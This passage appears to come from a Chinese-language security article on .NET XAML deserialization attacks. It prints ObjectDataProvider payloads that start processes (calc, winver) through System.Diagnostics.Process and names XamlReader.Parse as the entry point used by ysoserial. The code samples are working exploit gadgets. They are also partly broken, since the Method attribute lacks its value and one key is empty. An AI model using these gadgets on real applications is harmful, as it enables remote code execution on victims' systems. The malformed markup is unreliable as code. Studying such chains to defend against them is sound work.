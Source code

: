 clr-namespace:System.Diagnostics 程序集是必须的，需要靠它调用 Process 类启动新进程。但还可以进一步简化，clr-namespace:System 因为不是必须的所以对应的名称空间 xmlns:b 可以不用，MethodParameters 也就无需再使用 <b:String> 元素，另外 < ResourceDictionary > 也可以用 < Window.Resources> 或者 <Application.Resources> 、<Grid > 控件去替代，代码如下  

```
<Grid xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" 
xmlns:c="clr-namespace:System.Diagnostics;assembly=system">
<Grid.Resources>
    <ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" Method>
        <ObjectDataProvider.MethodParameters>calc</ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</Grid.Resources>
</Grid>

```

0x05 攻击面
========

XamlReader.Parse
----------------

ysoserial 在 XmlSerializer 反序列化链中使用 XamlReader.Parse 解析 XAML 字符串并返回新对象， 转到定义可见有 2 个方法重载，官方文档有如下注明

“

Reads the XAML input in the specified text string and returns an object that corresponds to the root of the specified markup.

”

![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibesCLZookMlDIfegHtZA8byMZBoRe827KukyxoiclMrvfF07Whdia8fWZEeibxE4HdQYiaF5VdwhetIg/640?wx_fmt=png)

笔者创建测试用例存储于 Dictionary2.xaml 如下代码，ObjectType="{x:Type TypeName=local:Process} 可省略 TypeName，另外资源检索键名 ResourceKey 也可以省略，Source={StaticResource ResourceKey=obj}

```
<Window 
        xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
        xmlns:d="http://schemas.microsoft.com/expression/blend/2008"
        xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006"
        mc:Ignorable="d"
        xmlns:local ="clr-namespace:System.Diagnostics;assembly=System"
        Title="MainWindow" Height="450" Width="800">
    <Window.Resources>
        <ObjectDataProvider x:Key="obj" ObjectType="{x:Type local:Process }" Method>
            <ObjectDataProvider.MethodParameters>"winver"</ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </Window.Resources>
    <Grid DataContext="{Binding Source={StaticResource obj}}">
        <Button Content="Button" HorizontalAlignment="Left" Margin="300.085,187.924,0,0" VerticalAlignment="Top" Width="139.599" Height="45.517"/>
    </Grid>
</Window>

```
